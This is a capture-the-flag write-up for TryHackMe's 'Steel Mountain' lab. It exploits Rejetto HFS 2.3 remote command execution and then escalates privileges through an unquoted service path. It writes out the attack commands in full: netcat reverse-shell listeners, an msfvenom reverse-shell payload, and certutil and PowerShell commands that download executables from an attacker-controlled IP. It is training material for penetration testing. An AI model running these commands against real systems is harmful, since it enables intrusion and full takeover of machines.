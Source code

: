 ```yaml
---
layout: default
title: "Steel Mountain"
---
```


[Steel Mountain](https://tryhackme.com/room/steelmountain) is the first machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration
By scanning the machine with nmap we can see that both port `80` and port `8080` are running the HTTP services.  
Port `80` has nothing relevant. Port `8080`, however, mentioned that this service is running on `HttpFileServer 2.3`.  
By going a quick Google search we can learn that the full name of the service is `Rejetto HTTP File Server (HFS)`.

Let's check for the available exploits:
```
searchsploit Http File Server 2.3
----------------------------------------------------------------------------------------- -------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- -------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                           | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                      | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                      | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                 | windows/webapps/34852.txt
----------------------------------------------------------------------------------------- -------------------------
```
The official guide is going through the exploitation with `Metasploit`, but I will skip this part, as from learning point of view it's not so useful.

## Exploitation
Let's try out the exploit:
```
searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /THM/StillMountain/39161.py
```

> Always read the code of exploit before run it!

Line `35` and `36` should be changed to make this exploit to work.

```
ip_addr = "10.11.19.53" #local IP address
local_port = "443" # Local Port number
```
Also, the HTTP server with `nc.exe` should be served on the local host. `nc.exe` can be found in `/usr/share/windows-resources/binaries/nc.exe`.  

```
sudo python -m SimpleHTTPServer 80
```

Create a listener for a reverse shell:

```
sudo nc -nlvp 443
```

Run the exploit and catch the shell:

```
python 39161.py 10.10.114.253  8080
```

## PrivEsc

To enumerate all possible ways to escalate privileges we will use [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS).
Download it and put to the folder where you are already running the `SimpleHTTPServer`.

You can download files to it by using `certutil.exe`.
You can read more about `certutil` [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil), but syntax that we will need is:

```
certutil.exe -urlcache -split -f http://10.11.19.53/winPEAS.exe
```

The `PowerShell` also could be an alternative for that:

```
powershell -c (new-object System.Net.WebClient).DownloadFile(‘http://10.11.19.5/winPEAS.exe','C:\Users\Public\winPEAS.exe')
```

Run `winPEAS` and explore the output.

```
AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
```

By checking the available exploits we can find that this service is vulnerable to the `UnquotedServicePath` vulnerability.

To preview the content of the exploit you can use `-x` flag of the `searchsploit`:
```
searchsploit -x 40577
```

The main idea here is that the binary of the service is located in the `C:\Program Files\IObit\Advanced SystemCare\` folder. As the path is unquoted, an attacker could place the malicious binary named `Advanced.exe` to the `C:\Program Files\IObit\` folder.
By starting the service one more time, the `C:\Program Files\IObit\Advanced.exe` will be executed with system rights, instead of the `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`.

Creating a reverse shell:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.53 LPORT=53 -f exe -o Advanced.exe
```

Open another listener for the port `53`

```
sudo nc -nlvp 53
```
Download the reverse shell to the machine:

```
cd C:\Program Files\IObit\
certutil.exe -urlcache -split -f http://10.11.19.53/Advanced.exe
```

Stop and start over the service:

```
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0



C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

## Takeaway
- Make sure that you are enumerating all ports
- If there is a Metasploit module, that means you can do the same thing manually
- Always read the code of the exploit
